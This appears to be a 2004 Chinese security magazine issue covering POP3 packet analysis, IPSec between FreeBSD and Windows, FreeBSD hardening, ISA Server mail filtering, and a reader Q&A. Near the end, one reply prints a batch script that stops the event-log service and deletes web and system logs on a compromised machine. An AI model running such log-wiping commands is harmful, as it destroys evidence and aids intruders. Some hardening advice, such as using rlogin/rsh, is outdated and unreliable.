最后 4 行是 TCP 会话终止时采用的三步握手——被称为修改了的三步握手。第一步是 192.168.0.3 向邮件服务器发出“终止会话”的请求，其中的“F”标志表示结束（finish）；第二步的 Ack 是邮件服务器向 192.168.0.3 表示“收到请求”；第三步邮件服务器用“F”标志向 192.168.0.3 发出“我已经终止会话了”，第四步 192.168.0.3 用 Ack 表示“我知道了”。经过这 4 步的协商后，192.168.0.3 和邮件服务器之间就彻底地断开了。

以上我为大家详细地介绍了 POP3 协议的内部机制，限于篇幅原因，本文中并没有对我们所捕捉到的所有数据包进行一一讲解，也许大家会在面对这一大串的 16 进制数据时感到有些头晕脑胀，但是深入了解各种协议数据流的真实面目确实是我们在网络管理中的重要技能。如果我们不能正确识别正常和恶意数据流之间的区别，那么我们将难以解决网络中流量变化所带来的一些问题，也无法面对日益猖獗的黑客入侵行为。希望本文能对正在学习 TCP/IP 知识和网络流量分析的朋友们有一些帮助，也希望大家都能勤动手，多做网络流量分析，为我们的网络安全贡献出自己的微薄之力。

> 非常棒的一篇文章！整个文章一气呵成，读起来非常舒服！对数据传输和网络原理的分析又非常得当、准确，是篇值得珍藏的协议分析思路文章！你读了几遍了？

## TIPS 什么是 POP3 协议？

POP3 是邮件邮局协议第三代（Post Office Protocol）的缩写，是绝大多数邮件收发程序使用的协议。用户接收邮件时，一般都使用该协议，能使用像 Outlook、Outlook Express、Foxmail 和 Netscape Mail 等邮件程序直接访问你的邮件。每一个 POP3 账号都有自己的密码，不论你在世界的某一个地方连上互联网都可以检查你的邮件。

## 难度等级：中

## 适合对象：中小型网络网管

## 前置知识：FreeBSD 使用经验

刘流：关于 IPSec，我想大家或多或少地都有一些了解，《黑客防线》也刊登过多篇 IPSec 的相关文章，不过，这些文章都是基于 Windows 下的，并且都是在讲如何过滤数据包。其实，过滤数据包的任务完全可以交给防火墙来处理，而 IPSec 真正强大的地方是它的通讯加密。鉴于此，有必要说说如何使用 IPSec 进行通讯加密，所以约了作者写下此文，并且以 FreeBSD 为例，讲解如何使用 IPSec 与 Windows/Unix 进行加密通讯，希望能给安全爱好者以及 BSD 爱好者一些帮助。


# IPSec 打造 FreeBSD 下信息的安全传输

文／图 Dahubaobao[RingZ]

在当今的网络安全中，由于很多服务都是明文通讯，安全性非常低，一旦被嗅探工具监听就会被窃取所有信息，所以采取通讯加密的手段是非常有必要的，下面我们一起来探讨一下这方面的技术。

先介绍一下我测试的环境：

| 项目 | 内容 |
|---|---|
| 本地 | FreeBSD 4.9 STABLE，IP：192.168.0.20 |
| 目标 | Windows 2000 Advance Server，IP：192.168.0.1 |
| 目的 | 使用 IPSec 加密所有 IP 报文，除广播、多播协议外。 |

> 注意：这里不介绍如何使用 IPSec 过滤数据包，因为这些是可以交给 IPFW 来完成。

IPSec，即网际安全协议，它通过对 IP 报文进行加密，并将其封装在 IP 头中通过企业专用网或者公网网络发送。黑防原来介绍过很多，大家可以翻翻原来的杂志看看，如果想看官方的资料，Windows 系统上的 IPSec 帮助就是很好的选择。下面我们开始实际操作。

## 更新 FreeBSD

FreeBSD 默认并不支持 IPSec，这是因为默认内核 GENERIC 中并没有相关选项，所以需要自己添加，并重新编译内核。

> 刘流：由于代码较普遍，而且较长，所以代码和详细介绍都放在光盘里，大家可以查看“杂志相关”栏目。

现在，你的系统已经是最新的了。如果你是新安装的系统，请务必按照上边的方法更新系统，这样既可以补上一些安全漏洞，又可以为系统带来更好的性能，何乐而不为呢？！

## 应用 IPSec

### 1. FreeBSD

经过上边的设置，系统已经是最新的，但现在还不能使用 IPSec，还需要安装一个名为 IKE（ISAKMP/Oakley）Key Management Daemon 的软件。好在 FreeBSD 已经将其收录在 Ports 中，这样就不用去下载了：

```bash
#cd /usr/ports/security/racoon
#make install clean
```

完成之后，我们需要对其进行相应的配置。它被安装到了 `/usr/local/etc/racoon/` 目录中，我们需要对 `psk.txt` 和 `racoon.conf` 进行编辑，以符合我们的需要，操作如下：

```bash
#cd ../../../../local/etc/racoon
#cp psk.txt.dist psk.txt
#chmod 0600 psk.txt
```

`psk.txt` 权限必须修改为 `0600`，并且为 `root` 所有，否则 `racoon` 无法运行。

`#vi psk.txt`

结果如图 1 所示。



图 1

删除所有内容，只添加：

| 目标 IP | 预共享密钥 |
|---|---|
| 192.168.0.1 | dahuobao |

```bash
#cp racoon.conf.dist racoon.conf
#chmod 0600 racoon.conf
#vi racoon.conf
```

`// 两次 chmod 后，权限和文件所属应如图 2 所示。`



图 2

`// 编辑配置文件，注释掉一些不需要的内容。`

这里需要分开来说，一个是使用 CA 认证，一个是不使用。如果不使用 CA 认证，我们就需要把关于 CA 认证的部分注释掉；如果需要使用，就使用 OpenSSL 创建 CA 证书，并在配置文件中填写相关信息（后面会说到）。具体如下：

```text
path certificate "/usr/local/etc/cert"
```

如果不需要，注释掉就可以了。这里就是放 CA 证书的目录，默认没有注释。

```text
log debug;    // 去掉注释，如果你需要日志的话。
isakmp 192.168.0.20 [500];
// 去掉注释，添加本地 IP。
#my_identifier address
#my_identifier user_fqdn "sakane@kame.net";
#peers_identifier user_fqdn "sakane@kame.net";
#certificate_type x509 "mycert" "mypriv";
```

`// 这里是关于 CA 认证的地方，如果使用了 CA 认证，就需要根据使用 OpenSSL 创建 CA 证书时所填写的信息来修改这里；如果不使用，注释掉即可。`

```text
#my_identifier user_fqdn "sakane@kame.net";
#peers_identifier user_fqdn "sakane@kame.net";
#certificate_type x509 "mycert" "mypriv";
// 同上
```

下面来看看如何使用 OpenSSL 来创建证书。

```bash
#openssl genrsa -des3 -out ca.key 1024
#openssl req -new -x509 -days 365 -key ca.key -out ca.crt

#openssl genrsa -out win2000.key 1024
#openssl req -new -key win2000.key -out win2000.csr
#openssl x509 -req -days 166 -in win2000.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out win2000.crt
#openssl pkcs12 -export -inkey win2000.key -certfile ca.crt -in win2000.crt -out win2000.p12
```

`// 以上是为 Windows 2000（目标）创建的证书，由于 Windows 2000 证书需要 PKCS12 格式，所以使用上边这条命令进行转换。下面来创建 FreeBSD（本地）系统上的证书。`

```bash
#openssl genrsa -out freebsd.key 1024
#openssl req -new -key freebsd.key -out freebsd.csr

#openssl x509 -req -days 166 -in freebsd.csr -CA ca.crt -CAkey ca.key -CAcreateserial -out freebsd.crt
```

这样就创建了需要的证书文件，所有的相关文件都会在当前目录下。

现在把 `win2000.p12` 复制到 Windows 2000，然后运行 mmc，“控制台→添加/删除管理单元→添加→证书→添加→服务账户→下一步→本地计算机→下一步→IPSEC Policy Agent→完成”。最后将证书导入即可。如图 3 所示。



再到 FreeBSD 下：

```bash
#mkdir /usr/local/etc/racoon/cert
#cp * /usr/local/etc/racoon/cert/
#chmod 0600 /usr/local/etc/racoon/cert/*
```

把证书文件复制到 `/usr/local/etc/racoon/cert` 目录中，然后修改配置文件，如下。

```text
my_identifier address;
my_identifier user_fqdn "freebsd@ringz.com";
peers_identifier user_fqdn "win2000@ringz.com";
certificate_type x509 "freebsd.crt" "freebsd.key";
peers_certfile "win2000.crt";
```

在下面还有一处需要修改，跟这里完全一样，就不再多说了。

现在就可以运行 `racoon`，并指定一个放日志的地方了：

```bash
#racoon -f /usr/local/etc/racoon/racoon.conf -l /var/log/racoon.log
```

然后加入安全策略：加入安全策略需要使用 Setkey 命令，它是用来添加、更新、删除、显示内核中的安全策略数据库的。Setkey 可以执行标准输入操作和从文件的输入操作，简单解释一下参数的含义：

- `-c`：执行标准输入操作
- `-f filename`：执行从文件的输入操作
- `-D`：打印出 SAD。如果有选项 `-P`，打印出 SPD。
- `-F`：清除 SAD。如果有选项 `-P`，则清除 SPD。
- `-a`：显示死了的 SAD。
- `-d`：允许打印调试信息。通常不会使用。
- `-x`：循环显示发送到 PF_KEY 接口的所有消息。
- `-h`：加入 16 进制显示

Setkey 还有很多属性，具体可以通过 `man setkey` 查看，这里只需用到 `spdadd` 属性，使用它可以很简单地添加安全策略：

```bash
#setkey -c <<EOF
spdadd 192.168.0.20 192.168.0.1 any -P out ipsec
    esp/transport//192.168.0.20-192.168.0.1/require;
spdadd 192.168.0.1 192.168.0.20 any -P in ipsec
    esp/transport//192.168.0.1-192.168.0.20/require;
EOF
```

这里使用的是传输模式，如果打算使用隧道模式，只需把上边的安全策略中的 `transport` 修改为 `tunnel` 即可。

> 刘流：注意：Transport 和 Tunnel 是有区别的。同样，目标主机也需要适当修改以符合 FreeBSD 上的安全策略。也就是说，目标主机是使用传输模式还是隧道模式是需要统一的。

### 2. Windows 2000

FreeBSD 系统上的相关设置完成后，现在可以使用 IP 安全策略添加安全规则。首先，点击“开始→程序→管理工具→本地安全策略”，然后右键单击“IP 安全策略，在本地机器”，选择“创建 IP 安全策略”，弹出 IP 安全策略向导，在名称中填上“加密所有 IP 通讯”，描述随意填写，将“激活默认响应规则”前边的对勾去掉——这里就需要注意一下，如果使用 CA 认证，则选择“使用由此证书颁发机构（CA）颁发的证书”，然后点浏览选择之前创建的证书（win2000.p12）；如果使用预共享密钥，就选择“此字符串用来保护密钥交换”，然后填写预共享密钥（psk.txt），一部分完成。

好，继续来添加 IP 安全规则。点击“添加→下一步”，来到“隧道终结点”对话框，如果在 FreeBSD 系统上的安全策略是传输模式，则选择“此规则不指定隧道”；如果是隧道模式，就选择“隧道终结点由此 IP 地址指定”，填写上 FreeBSD 的 IP 地址→下一步→局域网（LAN）→下一步；身份验证方法选择预共享密钥，填写 dahubaobao→下一步；IP 筛选器列表选择“所有 IP 通讯”→下一步；在筛选器操作中选择“要求安全设置”。当然，你也可以自己创建一个筛选器操作，方法是点击“添加→下一步”，填写名称，下一步，选择“协商安全”→下一步，选择“回退到不安全的通讯”→下一步，来到 IP 通信安全设施，推荐默认设置，如果对默认设置不满意，也可以选择自定义（图 4）。

选中刚才添加的筛选器操作→下一步→完成，最后指派一下就可以了。到此，两个系统之间的 IP 通讯都使用 IPSec 进行加密了，安全性得到了绝对的保证。如果你的计算机是两台 Unix，添加规则的时候注意一下 IP 地址的顺序就可以了，过程比 Windows 简单很多，在此就不多说废话了。

## 后记

IPSec 的功能还不只如此，本文只是介绍了它的部分功能。IPSec 的最大特点是系统自带的，不管是 Unix/Linux 还是 Windows，都支持 IPSec，爽吧？本文的实践性很强，大家回去一定要动手试试哦，否则一切都是纸上谈兵！鉴于水平有限，文章难免有不足之处，还请多多指教。如有任何问题，欢迎来我的网站（www.ringz.org）与我交流，谢谢。

# FreeBSD 安全点滴

- 1. 如果 Server 运行 Apache 或 Wu-ftpd、Proftpd，且运行模式为 standalone，也就是说作为一个独立的后台服务进程，可以独立地响应用户的请求，不受 Super-Server Daemon→inetd 的控制。可以修改 `/etc/inetd.conf` 文件，除去 shell and login services running 外，把其它的服务都关掉。在其它服务前加 `#`（如 `#ftp`）；这样一来远程控制服务器就用 SSH（Secure Shell）来管理服务器（`rlogin or rsh your-server`）。
- 2. 改变系统的核心变量，达到对外屏蔽服务器没有使用的端口：
  - `#sysctl -w net.inet.tcp.log_in_vain=1`
  - `#sysctl -w net.inet.udp.log_in_vain=1`
- 3. 观察提供服务端口的数目，除去 Port 21（ftp）、80（www）、513（login）、111（sunrpc）外，把其它的服务端口关闭。
  - `#netstat -na | grep LISTEN`
- 4. 观察文件系统的设置情况，以防止远程非法用户 mount your filesystem：
  - `#cat /etc/fstab`，如果你看到分区属性中有 `nosuid` 属性，请改妥。
- 5. 为了防止 cracker 利用 rootkit 工具通过后门进入系统，对 `/bin`、`/sbin` 进行安全保护：
  - `#chflags schg /bin/*`
  - `#chflags schg /sbin/*`
- 6. 不允许一般用户阅读系统的日志文件：
  - `#chmod g-w,o-r /var/log/*`


```

# ISA Server

## “干掉”非法邮件

文／图 黄志东

难度等级：中

前置知识：firewall 的包过滤常识，ISA 工具的使用技巧，垃圾邮件的过滤

> 刘流：这年头，垃圾邮件可害苦了我们，每次打开信箱不是垃圾广告一大堆，就是 mydoom 病毒的泛滥邮件一群，这日子怎么过啊！wtf 老大，对邮件过滤也是一头雾水，那邮件过滤到底从何开始呢？我们一起来讨论讨论……

朋友们都收到过垃圾邮件吧？最近这几个月垃圾邮件和病毒邮件简直发疯了！到处都是，很多网络管理员对它们非常头痛，但苦于没有一种较好的方法来应付日益泛滥的非法邮件。同时，对于企业而言，由于宽带的普及，一封普通的邮件可以在瞬间就发送到外部网络中，这样我们就不能有效地防止企业内部部分不怀好意的员工将公司的机密资料偷窃走！——为了防止这样的事情发生，我们需要对公司内部员工所发送的邮件进行过滤，或过滤进入我们邮件服务器的电子邮件，包括邮件的发送人、邮件的内容以及邮件附件的过滤等等。那么我们如何才能够对这些电子邮件进行过滤、监控呢？

微软的 ISA Server 2000（以下简称 ISA）以其配置简易、管理功能强大，已经被广泛作为保护企业网络安全的防火墙，而 ISA 的 Message Screener 组件可以对进出企业的电子邮件进行过滤，能够有效地保护你的邮件服务器，为你的电子邮件系统提供安全、有效的防护。

## ISA 的过滤组件分析

ISA 的邮件过滤组件分成两部分：安装在 ISA 上的 SMTP Filter 和安装在 IIS 5 SMTP 服务所在计算机上的 Message Screener。SMTP Filter 默认会被安装，但没有开启；而 Message Screener 则是 SMTP 的扩展组件，只能安装在配置了 IIS 5 SMTP 服务的计算机上。

ISA 的 SMTP 过滤组件的工作原理是截取 ISA 从 25 端口接收的 SMTP 数据包，SMTP Filter 接收这些数据包，对其进行检查，然后根据邮件过滤规则决定是否允许该邮件传递。SMTP 过滤器可以根据附件名称、扩展名或者附件大小对电子邮件进行严格的过滤，也可以根据当前发送人、发送人邮件所在的域、邮件内容的关键词、SMTP 命令或其长度等等进行有效过滤。

由于 Message Screener 必须安装在 IIS 5 SMTP 服务的计算机上，使用 Distributed Component Object Model（DCOM）来和 ISA Server SMTP Filter 通信，因此需要进行一系列的配置，Message Screener 才能从 ISA 的 SMTP Filter 中读取到相应的过滤规则，以进行邮件过滤，所以整个过程运作起来会比较复杂，对服务器自身的要求也相对较高。

要利用 Message Screener 的邮件过滤功能，我们需要在安装了 IIS 5 SMTP 服务的计算机上进行相关的操作，主要有：

- 1. 安装 Message Screener 组件；
- 2. 如果该计算机不是主邮件服务器，还应该配置邮件中继和转发；
- 3. 使用 Smtpcred.exe 工具设置对 ISA Server 的访问账号（这一步可以根据需要进行）。

在 ISA 计算机上：

- 1. 使用 Dcomcnfg.exe 配置 DCOM 权限；
- 2. 将 IIS 5 SMTP 服务所在计算机进行发布，以供 Internet 用户访问；
- 3. 开启并配置 SMTP Filter。

## 防垃圾邮件方案

根据常见的网络拓扑结构，现在我将这个应用方案划分成 3 个方案，分别为：

- 1. **方案一**：邮件系统是 Exchange Server 并存放在内部网。那么在 Exchange Server 上安装 Message Screener，并在 ISA 中发布该邮件服务器。
- 2. **方案二**：邮件系统不是 Exchange Server，而是诸如 Imail、WebEasyMail 等其他厂商的邮件系统，那么需要在内部网的某台计算机上安装 IIS 的 SMTP 服务，将其配置作为外发邮件网关。然后在该计算机上安装 Message Screener，并在 ISA 中发布。
- 3. **方案三**：和方案二类似，不过是直接把 SMTP 服务安装在 ISA 所在计算机上，并安装 Message Screener。不再进行发布，而需要在 ISA 上设置允许 SMTP 协议进出的包过滤规则。

如果设置了多个虚拟 SMTP 服务器，Message Screener 只对列表中排在第一位的虚拟 SMTP 服务器进行过滤。这个方案可以对进出邮件服务器的所有邮件进行过滤，当然也包括通过该服务器对内部网络互发的邮件。这样做的一个好处是能够监控到所有进出的电子邮件，但它有一个缺点，就是会导致 Exchange Server 性能下降。

方案二和三都只能过滤从 Internet 进入的邮件，不能过滤外出的邮件。

## 具体的配置过程

- 1. **安装 Message Screener**

使用 ISA 的安装光盘，运行 ISA 安装程序，选择“Add-in Services”，然后安装管理工具和 Message Screener。

如果使用 ISA 标准版或者运行在独立服务器状态的企业版，需要在安装了 Message Screener 的 SMTP 服务所在计算机上运行 SMTPCred.exe 工具，以便配置对 ISA 服务器有管理权限的账号，实现从 ISA 获取 SMTP 过滤规则设置。如果 ISA 服务器已经配置为企业阵列的方式，则该信息会从活动目录中读取，所以就不需要这一步操作了。

现在我们为了进一步确认 Message Screener 是否已经成功运行，我们可以先发一封邮件，然后在运行 SMTP 服务所在的计算机上使用微软资源工具箱中的 Tlist.exe 工具来确认 Fltrsnk1.dll 是否已经被加载到 Inetinfo.exe 中。运行 Tlist.exe -m Fltrsnk1.dll 会看到运行结果方面的相关输出信息，如下：

```text
C:\>tlist -m fltrsnk1.dll

fltrsnk1.dll - 848 inetinfo.exe
```

这表明 Message Screener 已经被加载到 SMTP 服务中。

- 2. **配置 ISA Server 2000**

ISA SMTP Filter 通过 Distributed COM（DCOM）来进行数据传输。为了让 ISA 和 Message Screener 所在服务器之间的 DCOM 能够正常工作，需要在 ISA 上运行 Dcomcnfg.exe 并配置权限设定。

运行 Dcomcnfg.exe，然后在 Applications 标签下面找到 VendorData Class，对属性进行编辑。如图 1 所示。

将“访问权限”、“运行权限”和“配置权限”分别设定为自定义配置，并将 Everyone 的权限设置为“Allow Access”、“Allow Launch”和“Full Control”。

> 刘流：在 ISA Server 企业版中，当 ISA Server 作为企业阵列存在时，因为 SMTP 过滤器对所有的阵列起作用，所以必须确保具有对企业配置策略进行修改的权限，这样才能对 SMTP 过滤器进行相关的修改、配置。

接下来需要发布邮件服务器，可以使用服务器发布规则向导完成这一工作。把安装了 Message Screener 的 IIS 5 SMTP 服务所在计算机进行对外发布，注意要选中“Apply content filtering”一项。

在企业供 Internet 访问的 DNS 服务器上，应该为发布规则中对应的 ISA 外部网卡建立 MX 邮件交换记录。如果 SMTP 服务安装在 ISA 所在计算机上，那么需要为进出的 SMTP 协议创建包过滤规则（远程邮件服务器连接到本地的 TCP 25 端口，以及本机连接远程邮件服务器的 TCP 25 端口），以便使邮件能够发送和接收。ISA 在默认情况下 SMTP Filter 已安装，但是没有被开启，需要在应用程序过滤器中开启。注意：只有在 Message Screener 安装并正常配置完成后才可以开启 SMTP Filter。

接下来我们开始对邮件的过滤规则进行配置，在 SMTP 过滤器的属性中，一共可以看到“Attachments”、“Users/Domains”、“Keywords”、“SMTP Commands”4 个标签。在附件选项下，配置依据邮件附件进行过滤。

附件过滤规则可以根据名称（必须写全称，也不能使用通配符，这点应该算是一个缺陷），我们可以根据邮件附件的文件类型（后缀）、大小来进行过滤，满足过滤条件的邮件可以设置处理的动作有“Delete”、“Hold”或者“Forward”。在这里我们可以灵活处理符合过滤规则的邮件，至于如何处理由于篇幅原因我就不说了。但在这里需要注意的一点是：如果一封邮件包含多个附件，只要有其中的一个附件满足过滤规则的要求，整个邮件也会被自动过滤处理。

在发件人和邮件域中，可以阻止来自于某些特定的邮件地址或邮件域。发件人和邮件域过滤是根据“MAIL FROM”命令后的地址来进行过滤，所以邮件中的“FROM”和“TO”即使是伪造的也往往被忽略过。SMTP 服务并不拒绝来自被过滤地址的邮件，而是在接收该邮件后自动删除。关键词过滤可能是应用最广泛的一个设置了，在这里我们可以根据邮件头或正文中的内容进行关键词的过滤。

关键词不区分大小写，“abc”和“ABC”都是一样的。最后是 SMTP 命令过滤，主要用来设置相应 SMTP 命令的最大数据长度，以对抗缓冲区溢出攻击或者拒绝服务攻击。

至此我们配置邮件过滤规则就基本完成，但为了保证设置好或修改完成的邮件过滤规则能够立即生效，需要对 ISA 的整个服务重新启动（重新启动计算机也是一个不错的选择）。

### 3. 配置 SMTP 服务进行邮件中继

上面我们讲的是邮件系统在 Exchange Server 时的一些相关设置，但如果保护的邮件系统不是 Exchange Server，或者内部网有多台 Exchange Server，因为 Message Screener 只能安装在 IIS 5 SMTP 服务所在计算机上，那么需要另外单独配置一台计算机作为邮件网关，或者将 ISA 所在计算机作为邮件网关。为此需要配置邮件中继，要在 IIS 5 的 SMTP 服务中进行配置（也需要在邮件服务器上进行配置），以将 Message Screener 所在计算机作为企业内部和外部的邮件网关。

在 IIS 管理器的虚拟 SMTP 服务器上，新建远程邮件域，即为企业的邮件域名称。在属性中设置“Forward all mail to smart host”，把收到的邮件转到内部邮件服务器上。注意，如果输入的不是邮件服务器的域名，而是该机的 IP 地址的话，则必须在 IP 地址处加上方括号，如 [192.168.207.100]。该 SMTP 服务器也应该作为企业外发邮件的网关，那么需要开启邮件中继。在虚拟 SMTP 服务器的属性中，访问—中继项下，设置为“只有列表中的才能进行邮件中继”，把内部网的邮件服务器填写进去，以避免 SMTP 服务器被用作转发垃圾邮件。

最后就是在邮件服务器上配置，将安装了 Message Screener 的 IIS 5 的 SMTP 服务器作为邮件网关。基本上所有的邮件系统都提供了该设置，根据你的应用环境中的不同系统的具体情况进行修改。

在 Exchange Server 2000 中，是在用来提供 Internet 邮件发送的 SMTP 连接器上，配置把邮件发送到 Message Screener 所在 SMTP 服务器上。

好了，关于 ISA 邮件过滤这方面的就介绍到这里，有兴趣或有这方面需求的朋友可以现在就行动，按上面说的去做，保证会有意想不到的好效果。另外，在开始上面的配置工作之前建议大家先打完 ISA 最新补丁后再开始上述操作，这样不会出现补丁打完后原先的配置被改动等问题。

# 编后语

最近的 mydoom 把黑防会员邮箱害惨了，非常多的垃圾、病毒邮件在服务器里面穿梭，wtf 每天收到不下千封信件，里面 1/3 都是非法的！唉，有发来我们邮箱给你的非法邮件，请过滤，我们正在积极地清理，谢谢！BD

# 纯爱互动

> 5 月了，不经意间又过了小半年，这半年里我们亲眼见证了网络上疯狂入侵事件的一次又一次发生，也知道有无数的幕后英雄在默默地抵抗着一波又一波的攻击；我们是为了技术的守望还是单纯的攻击？希望是前者，不然，“黑客”这个词语在中国，可真是没救了。

Sandy：我的机器是 Windows XP 的系统，今天在电脑里乱逛，发现了一个文件，是下载的《黑客防线》2003 年 9 月的光盘里的木马，我就进去瞧了瞧，结果没注意点开了红衣刺客的一个木马程序 muzhu，然后我的所有盘都被共享，开启了 admin、打印和命名管道共享，添加名为 guest$、密码为空的具有管理员权限的帐户，打开了 telnet 服务，开了我的 3389 终端，请各位黑编帮忙救救小弟我！

刘流：下载了一份木猪，这只是一个批处理木马，我对里面的代码进行了研究，解决方法如下：

- 1. 关闭共享，命令行下：
- 2. 关闭 telnet：在管理工具的服务中将 telnet 服务设置为“禁止”。
- 3. 关闭 3389（终端服务）的方法同上。
- 4. 删除 guest$：`net user guest$ /delete`。
- 5. ipc$、admin$ 可默认存在，只要你为管理员用户设置强壮的密码就可以了。

```text
net share muzhu1 /delete
net share muzhu2 /delete
......
net share muzhu7 /delete
```

桂林 小龙：黑防 3 月讲了内核 rootkit：hxdef100 的使用和对应的清理，但是是基于软件来检测的，请问有什么方法手动检测删除 hxdef100 后门？

脚本小子：这里提供几个思路，可以参考一下：

- 1. 用 DameWare NT Utilities 打开自己的 PC，从服务中看，是可以看见的。
- 2. 使用另外一台机器的计算机管理—>连接到需要清理的机器，然后点击服务和应用程序，看到你的 hxdef 服务了吗？关了它的服务，然后你就可以看到被隐藏的后门文件了！
- 3. 用启动光盘引导，去慢慢搜索相关关键字。

论坛 深飞刻：我的服务器被入侵了，只发现了一些 bat 文件，而当时我不在，同事已经删除，我们的日志已经全部被删除，唯一确定的就是 bat 被改变了，请问通过 bat 能实现这样的功能吗？

脚本小子：当然可以，很简单的，下面的批处理命令就是清除肉鸡所有日志，禁止一些危险的服务：

```text
@regedit /s patch.dl
@net stop w3svc
@net stop event log
@del c:\winnt\system32\logfiles\w3svc1\*.* /f /q
@del c:\winnt\system32\logfiles\w3svc2\*.* /f /q
@del c:\winnt\system32\config\*.event /f /q
@del c:\winnt\system32\dtclog\*.* /f /q
